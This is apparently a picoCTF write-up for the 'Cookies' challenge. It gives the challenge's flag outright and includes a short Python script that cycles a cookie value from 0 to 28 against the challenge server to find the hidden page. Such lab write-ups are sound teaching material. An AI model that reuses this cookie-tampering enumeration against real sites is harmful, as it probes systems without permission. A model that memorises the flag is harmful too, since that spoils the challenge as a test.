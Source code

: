 # Cookies

**FLAG** - picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

Owing to the name of the challenge, I first check the cookies!

![Alt text](https://github.com/user-attachments/assets/7272a2bc-4be7-4123-8d54-f0e74e4138b2)

I notice that the cookie value is -1, I decide to tinker around with it, by changing it to 0 and refreshing

![image](https://github.com/user-attachments/assets/60dc7993-33cf-42c5-bd85-bcb7a65047de)

with some trial and error I figure out the maximum possible value of the cookie is 28, knowing that I write the following python script

```python
import requests
f=open("answer.txt","a")
for i in range(29):
    cookie="name="+str(i)
    request=requests.get("http://mercury.picoctf.net:29649/check",headers={"Cookie":cookie})
    f.write(request.text)
    
f.close()
```

this wrote all the html source code into a answer.txt file, that I later used `Ctrl+F` to find the flag from

## Important Concepts Learnt
- Manipulating Cookies
- Using https requests like POST and GET through python

## References:

- https://stackoverflow.com/questions/6260457/using-headers-with-the-python-requests-librarys-get-method
- https://stackoverflow.com/questions/7164679/how-to-send-cookies-in-a-post-request-with-the-python-requests-library
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cookie
